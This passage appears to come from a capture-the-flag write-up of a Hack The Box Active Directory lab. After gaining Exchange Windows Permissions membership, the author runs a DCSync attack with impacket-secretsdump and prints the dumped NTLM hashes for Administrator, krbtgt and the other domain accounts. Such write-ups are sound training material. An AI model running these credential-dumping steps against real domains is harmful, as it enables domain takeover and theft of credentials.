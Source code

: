 We are now in the `Exchange Windows Permissions` group and can run a DCSync attack with `mimikatz` or `secretdump`. We will use the second.

```bash
impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161
```
    
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
```